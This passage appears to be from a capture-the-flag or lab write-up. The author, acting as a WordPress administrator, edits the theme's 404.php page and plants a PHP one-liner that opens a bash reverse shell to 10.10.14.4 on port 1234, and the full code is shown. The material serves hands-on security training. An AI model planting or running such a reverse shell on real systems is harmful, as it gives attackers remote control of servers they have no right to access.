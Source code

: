 As an Administrator, we can customize the themes however we want such as a one-liner rev shell :).

<figure><img src="../../../.gitbook/assets/image (702).png" alt=""><figcaption></figcaption></figure>

I didn't want to break the website so I chose the least used page which is `/404.php`  in the twenty seventeen page to put our reverse shell.

Got my oneliner over here:

<figure><img src="../../../.gitbook/assets/image (708).png" alt=""><figcaption></figcaption></figure>

```php
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/10.10.14.4/1234 0>&1'");
?>
```
